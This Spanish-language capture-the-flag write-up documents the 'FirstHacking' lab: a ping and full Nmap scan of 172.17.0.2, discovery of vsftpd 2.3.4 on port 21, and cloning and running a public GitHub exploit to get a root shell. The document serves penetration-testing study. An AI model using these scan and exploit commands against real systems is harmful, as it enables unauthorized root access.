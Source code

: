 # 📌 FirstHacking - Documentación de Hallazgos 🕵️‍♂️

#### [[Instalación de dependencias]]


## 🔹 **Despliegue del Laboratorio**

Para iniciar el laboratorio, ejecutamos el siguiente comando:

```bash
sudo bash auto_deploy.sh firsthacking.tar
```

Una vez desplegado, confirmamos la conectividad con un `ping`:

```bash
ping -c 1 172.17.0.2
```

📌 El parámetro `-c` indica el número de paquetes a enviar. La salida esperada:

```
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.182 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.182/0.182/0.182/0.000 ms
```

---

## 🔹 **Escaneo de Puertos con Nmap**

Realizamos un escaneo completo de todos los puertos con Nmap:

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts
```

### 📌 **Explicación de los parámetros**

- `-p-` → Escanea todos los puertos.
- `--open` → Muestra solo los puertos abiertos.
- `--min-rate 5000` → Acelera el escaneo enviando paquetes más rápido.
- `-sS` → Escaneo silencioso SYN.
- `-vvv` → Muestra detalles en tiempo real.
- `-n` → No usa resolución DNS.
- `-Pn` → Ignora si la IP está activa o no.
- `-oG allPorts` → Guarda la salida en formato grepeable.

📌 **Resultado esperado:**

```
Host: 172.17.0.2 ()	Ports: 21/open/tcp//ftp///	Ignored State: closed (65534)
```

Se detectó **solo el puerto 21 (FTP) abierto**.

---

## 🔹 **Escaneo Específico del Puerto 21**

Dado que solo el puerto 21 está abierto, realizamos un análisis más detallado:

```bash
nmap -p21 -sCV 172.17.0.2 -oN targeted
```

### 📌 **Explicación de los parámetros**

- `-p21` → Escanea solo el puerto 21.
- `-sC` → Ejecuta scripts de reconocimiento.
- `-sV` → Detecta versiones de los servicios.
- `-oN targeted` → Guarda el resultado en formato Nmap.

📌 **Hallazgo:** Se identificó que el servicio FTP es **vsftpd 2.3.4**, una versión vulnerable.

---

## 🔹 **Explotación del Servicio [[FTP]] ([[vsftpd 2.3.4]])**

### 📌 **Búsqueda de un exploit**

Buscamos vulnerabilidades en la versión identificada:

```bash
ftp vsftpd 2.3.4 exploit github
```

Encontramos un exploit en el siguiente repositorio:

🔗 [vsftpd_2.3.4_Exploit](https://github.com/Hellsender01/vsftpd_2.3.4_Exploit)

### 📌 **Descarga y ejecución del exploit**

```bash
sudo python3 -m pip install pwntools  # Instalamos dependencias

git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit.git  # Clonamos el repositorio

cd vsftpd_2.3.4_Exploit

python3 exploit.py 172.17.0.2  # Ejecutamos el exploit
```

📌 **Resultado esperado:** Obtenemos una **shell como root** en la máquina víctima. 🎯

---

## 🔹 **Conclusiones**

✅ Se desplegó y confirmó la conectividad del laboratorio. ✅ Se realizó un escaneo de puertos con Nmap, identificando el puerto 21 abierto. ✅ Se analizó el servicio FTP y se detectó la versión vulnerable vsftpd 2.3.4. ✅ Se ejecutó un exploit que permitió obtener acceso como root.

🔴 **Recomendación**: No usar versiones antiguas y vulnerables de FTP como vsftpd 2.3.4 en entornos de producción. 🚨

---

## 🔹 **Referencias**

- [Nmap Official Documentation](https://nmap.org/book/man.html)
- [vsftpd 2.3.4 Exploit GitHub](https://github.com/Hellsender01/vsftpd_2.3.4_Exploit)
- [Exploit Database](https://www.exploit-db.com/)

📌 **Autor:** Didier José Torres Parodis